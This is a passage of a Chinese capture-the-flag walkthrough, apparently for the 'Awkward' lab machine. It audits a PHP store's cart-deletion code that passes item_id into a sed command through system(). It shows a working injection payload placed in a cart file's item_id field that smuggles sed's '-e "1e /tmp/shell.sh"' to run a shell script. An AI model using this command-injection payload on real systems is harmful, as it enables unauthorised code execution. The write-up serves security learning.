   

## RCE

审计，其中在删除购物车信息的时候，会执行如下代码

  

  *   *   *   * 

    
    
    system("sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}");注：'/item_id={$item_id}/d'                #删除item_id={$item_id}的行-i {$STORE_HOME}cart/{$user_id}        #表示要操作的目标文件

  

我们可以添加一个商品到购物车，分析一下过程。如下图点击`ADD TO CART`

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230307193113.png)

然后到bean用户的ssh窗口查看`/var/www/store/cart`（由上面的`README.md`文件或者`cart_actions.php`可以分析出这个路径），可以看到文件名为`959e-8a52-2e0-fc52`，也就是`$user_id`的值，文件内容里`item_id=1`

  

  *   *   *   *   * 

    
    
    bean@awkward:/var/www/store/cart$ ls959e-8a52-2e0-fc52bean@awkward:/var/www/store/cart$ cat 959e-8a52-2e0-fc52 ***Hat Valley Cart***item_id=1&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90

  

代码中`item_id=1`会被代入sed命令执行，虽然有过滤，但是可以闭合绕过，这里就是可操作的地方。经过测试，对于同一个用户`$user_id`的值不会变，而且bean没有修改购物车文件的权限，但是可以先删除，然后重新写一个相同文件名的文件，如下

  

  *   *   *   *   * 

    
    
    bean@awkward:/var/www/store$ rm -rf cart/959e-8a52-2e0-fc52bean@awkward:/var/www/store$ nano cart/959e-8a52-2e0-fc52bean@awkward:/var/www/store$ cat cart/959e-8a52-2e0-fc52***Hat Valley Cart***item_id=1' -e "1e /tmp/shell.sh" /tmp/shell.sh '&item_name=Yellow Beanie&item_brand=Good Doggo&item_price=$39.90

  

构造payload可参考：https://gtfobins.github.io/gtfobins/sed/

我们构造的payload及最终代入sed命令的效果如下

  

  *   *   *   *   * 

    
    
    item_id=1' -e "1e /tmp/shell.sh" /tmp/shell.sh 'sed -i '/item_id={$item_id}/d' {$STORE_HOME}cart/{$user_id}sed -i '1' -e "1e /tmp/shell.sh" /tmp/shell.sh '' /var/www/store/cart/959e-8a52-2e0-fc52注：-e<script>或--expression=<script>表示以选项中指定的script来处理输入的文本文件

  
